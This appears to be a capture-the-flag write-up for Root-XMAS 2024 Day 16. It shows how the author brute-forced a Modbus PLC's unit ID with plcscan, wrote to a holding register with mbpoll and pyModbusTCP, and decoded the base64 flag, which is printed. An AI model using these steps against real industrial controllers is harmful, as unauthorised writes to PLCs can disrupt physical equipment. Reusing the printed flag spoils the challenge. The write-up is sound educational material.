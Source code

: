 ```yaml
---
title: Root-XMAS 2024 Day 16 - Coil under the tree
feed: show
permalink: /RootXMAS_2024_16
date: 16-12-2024
summary: Please put me in PLC
---
```


### summary

Industrial PLC id bruteforcing and communication. Not hard if you know about the domain! (I did not)
### recon

A challenge on a PLC!  (Programmable Logic Controller)! 
I followed the [LeHack 2024 conference on Industrial hacking by biero](https://www.youtube.com/watch?v=2d_Snz2lOO4&list=PLzGIjwtabBqh3sF_8xIrvRqdGnzBgXD-h&index=10) and his workshop, but I didn't remembered anything about it... And it didn't matter, as it was focused on Siemens devices, when this chall was'nt! Still, I wanted to give a shoutout to this nice talk!

Still, it's a subject I don't know at all, so sorry if I am approximative in my write-up.
### solution

The challenge gives us pretty precise instruction, we simply need to put them in action.
It tells us : "Scan and find a valid slave ID". When we don't know what to do, let's check what tools we have at disposition.

```bash
pacman -Ss plc
	...
	blackarch/plcscan 0.1-4
    This is a tool written in Python that will scan for 
    PLC devices over s7comm or modbus protocols.
```

Looks good enough for me. Let's launch it.

```bash
plcscan 163.172.68.42 --ports=10016 --brute-uid
	Scan start...                          
	163.172.68.42:10016 Modbus/TCP
	...
	Unit ID: 104
	    Device info error: GATEWAY TARGET DEVICE FAILED TO RESPOND
	  Unit ID: 105
	    Device: Root-Me Corp. PLC-RM001 1.0.0
	...

```

We have the slave ID, it's 105! Now what do?
It's easy to miss, the scanner tells us at the beginning that the device communicates with [Modbus](https://fr.wikipedia.org/wiki/Modbus) 

We only need to write one byte at a specific *holding* register, then read the *input* registers.
Searching online, we have multiple ways to send and receive data with modbus.

- The [mbpoll](https://manpages.ubuntu.com/manpages/lunar/man1/mbpoll.1.html) command line tool 

```bash
mbpoll 163.172.68.42 0xff -p 10016 -a 105 -r 0x10 && \
mbpoll 163.172.68.42 -p 10016 -a 105 -r 1 -c 125 -1 -t 3:string

	-- Polling slave 105...
	[1]: 	Q
	[2]: 	2
	...
	[106]: 	Q
	[107]: 	=
	[108]: 	=
```

We get an intersting base64 output! but the tool does not provide a more standard output format, so we will have to clean it ourself... nah, let's just switch to a python library!

- the [pyModbusTCP](https://pypi.org/project/pyModbusTCP/) python library

The library is pretty simple and well documented, 

```python
from pyModbusTCP.client import ModbusClient
from time import sleep
from base64 import b64decode

c = ModbusClient(host="163.172.68.42", port=10016, unit_id=105, auto_open=True)
c.write_single_register(0x10, 0xff)

res_list = c.read_input_registers(0, 125)
res_str = "".join([chr(x) for x in res_list])
res_dec = b64decode(res_str).decode(errors='ignore')

print(res_list, res_str, res_dec, sep="\n")
```

```bash
[81, 50, 57, ..., 81, 61, 61, 0, 0 ...]
Q29u...ViNjJ9XG4nXQ==
Congratulations, you can validate this challenge with:
['RM{13ad1bc2e25b62}\n']
```


> [!error] warning!
> You have to read at the input register at index *0* , other indexes also contain base64 strings, but with random data. if you chose index *1* you would get lost in a false lead!
